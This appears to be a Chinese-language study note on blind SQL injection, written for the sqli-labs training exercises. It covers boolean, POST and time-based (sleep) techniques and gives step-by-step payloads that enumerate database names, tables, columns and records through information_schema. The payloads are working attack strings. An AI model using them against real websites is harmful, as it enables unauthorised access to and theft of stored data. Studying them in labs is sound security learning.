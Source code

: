 **有时又服务器会对单引号进行转义, 使用ASCII码就不用使用单引号参数**

### 布尔盲注
- 是利用SQL语句**逻辑与**(and)操作, 判断and两边的条件是否成立, SQL语句带入数据库查询后判断返回内容(通常返回值仅有空和非空两种状态), 类似布尔型的true和false. 类似于一个人, 只能点头摇头来传递信息
- 特性: 对于用户执行的SQL语句, 只有两种页面显示, 利用SQL判断语句正确与否, 达到获取数据的目的
- **sqli-labs: Less-8**

#### 布尔盲注的流程
1. 确定注入点
	- `?id=1''`
	- 添加单引号/双引号一次/两次, 来判断判断注入点以及闭合方式
2. 判断数据库版本
	- `left(version(), 1)=5 --+` 5.0以上的版本可以使用information_schema数据库
3. 判断当前查询数据库名的长度
	- `length(database())=3 --+` 枚举最后的数字, 尝试长度
4. 猜解当前数据库名称
	- `ascii(substr(database(),1,1))>95 --+` 依次查看字符串名称的值
	- Burp的Intruder模块爆破, 调整Payloads
5. 猜解数据表总数
	- `(select count(table_name) from information_schema.tables where table_schema=database())=4 --+`
6. 猜解数据表第一个名称的长度
	- `length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+` length()只接收一个参数, 所以里面的嵌套查询需要括起来(limit部分的逗号) , 二分法
7. 猜解第一个数据表名称的第一个字符
	- `ascii(substr((select table_name from information _schema.tables where table_schema=database() limit 0,1),1,1))>95 --+` 使用第6步获取的名称的子句, 取子字符串查询, 修改substr()的第二个参数猜解不同位置字符
8. 猜解数据表中字段(列)数量
	- `(select count(column_name) from information_schema.columns where table_schema=database() and table_name="emails")=2 --+`
9. 猜解数据表中第一个字段的名称长度
	- `length((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1))=2 --+`
10. 猜解数据表中第一个字段名称的第一个字符
	- `ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),1,1))>97 --+`
11. 获取数据表字段的内容长度
	- `length((select id from emails))=3`
12. 获取字段中的记录
	- `ascii(substr((select group_concat(id) from emails),1,1))=49`

#### Post盲注
- 通过执行不同的SQL命令, 根据网页返回的post报文, 进行盲注
- 使用Burp的Proxy, Intruder和Repeater功能
- **sqli-labs: Less-15**
- 判断闭合方式时, 因正确数据未知, 故使用 `随机数据 or 1=1#`, 随机数据的闭合方式正确则1=1生效, 返回True

### 时间盲注(延时注入)
- 如果同时既没有布尔回显以及错误回显, 则只能通过延时注入, 根据浏览器页面的相应时间来判断正确的数据
- 通过`and sleep(5)`来判断页面的响应时间, 在五秒多一点则说明此处可以延时注入
- `if(a, b, c)`: a是判断语句, 如果a的结果为真, 则返回b; 如果a的结果为假, 则返回c
#### sleep()
- 使用与布尔盲注相似的条件, if()函数来使如果为真则执行sleep()函数
- payload: `if((length(database())=4),sleep(5),1)
